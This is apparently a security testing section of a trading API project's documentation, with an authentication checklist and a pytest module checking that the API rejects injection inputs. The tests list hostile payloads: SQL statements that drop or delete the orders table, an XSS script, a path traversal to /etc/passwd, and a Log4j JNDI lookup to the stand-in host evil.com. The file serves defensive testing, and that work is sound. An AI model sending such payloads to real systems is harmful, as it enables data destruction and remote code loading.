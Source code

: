 ## 🔒 Security Testing Protocols

### Security Testing Checklist

#### Authentication & Authorization Testing
- [ ] **Login Security**
  - [ ] Password complexity requirements enforced
  - [ ] Account lockout after failed attempts
  - [ ] Session timeout properly implemented
  - [ ] Multi-factor authentication works correctly
  - [ ] Password reset flow secure

- [ ] **API Security**
  - [ ] JWT tokens properly validated
  - [ ] API rate limiting enforced
  - [ ] CORS policies correctly configured
  - [ ] API keys secured and rotated
  - [ ] Unauthorized access attempts blocked

#### Input Validation & Injection Testing
```python
# tests/security/test_input_validation.py
class TestInputValidation:
    """Test input validation and injection prevention."""
    
    @pytest.mark.parametrize("malicious_input", [
        "'; DROP TABLE orders; --",  # SQL injection
        "<script>alert('xss')</script>",  # XSS
        "../../../etc/passwd",  # Path traversal
        "${jndi:ldap://evil.com/a}",  # Log4j injection
        "{{7*7}}",  # Template injection
    ])
    def test_api_rejects_malicious_input(self, client, auth_headers, malicious_input):
        """Test API properly sanitizes malicious input."""
        response = client.post(
            "/api/orders",
            json={
                "symbol": malicious_input,
                "quantity": 10,
                "side": "buy"
            },
            headers=auth_headers
        )
        
        # Should either reject with 400 or sanitize input
        assert response.status_code in [400, 422]  # Validation error
        
        # Verify no code execution occurred
        if response.status_code == 200:
            # If accepted, verify input was sanitized
            assert malicious_input not in response.text
    
    def test_sql_injection_prevention(self, db_connection):
        """Test database queries prevent SQL injection."""
        malicious_symbol = "AAPL'; DELETE FROM orders; --"
        
        # Attempt malicious query
        try:
            result = db_connection.execute(
                "SELECT * FROM orders WHERE symbol = %s",
                (malicious_symbol,)
            )
            
```